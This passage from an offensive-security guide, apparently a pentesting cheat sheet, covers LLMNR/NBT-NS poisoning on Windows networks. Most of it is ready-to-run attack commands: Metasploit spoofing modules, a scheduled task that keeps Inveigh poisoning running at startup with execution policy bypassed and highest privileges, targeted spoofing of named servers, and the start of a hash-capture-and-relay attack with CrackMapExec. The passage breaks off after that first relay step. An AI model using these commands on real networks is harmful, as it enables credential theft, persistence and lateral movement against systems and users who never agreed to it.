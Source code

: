 ### Metasploit Framework Approach

Metasploit includes modules for LLMNR/NBT-NS poisoning:

```
# In Metasploit console
use auxiliary/spoof/llmnr/llmnr_response
set INTERFACE <your_interface>
run

# For NBT-NS specifically
use auxiliary/spoof/nbns/nbns_response
set INTERFACE <your_interface>
run
```

### Advanced NBT-NS Poisoning Techniques in Windows

#### Persistent NBT-NS Poisoning

To maintain poisoning across reboots or user sessions:

```powershell
# Create scheduled task to run Inveigh at startup
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-ExecutionPolicy Bypass -File C:\Path\To\Inveigh-Persistent.ps1"
$trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "NBT-NS Poisoning" -Description "Persistent NBT-NS poisoning" -RunLevel Highest
```

**Example Inveigh-Persistent.ps1:**

```powershell
Import-Module C:\Path\To\Inveigh.ps1
Invoke-Inveigh -ConsoleOutput N -FileOutput Y -NBNS Y -NBNSTypes 00,03,20,1B -OutputDir C:\Path\To\Output
```

#### Targeted Poisoning

For more precise targeting:

```powershell
# Target specific hostnames
Invoke-Inveigh -NBNS Y -NBNSTypes 00,20 -SpooferHostsReply "fileserver,printserver" -SpooferIP 192.168.1.100
```

#### Relay Attacks with Inveigh and CrackMapExec

Using Inveigh to capture and CrackMapExec to reuse credentials:

1. Capture hashes with Inveigh

```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y
```
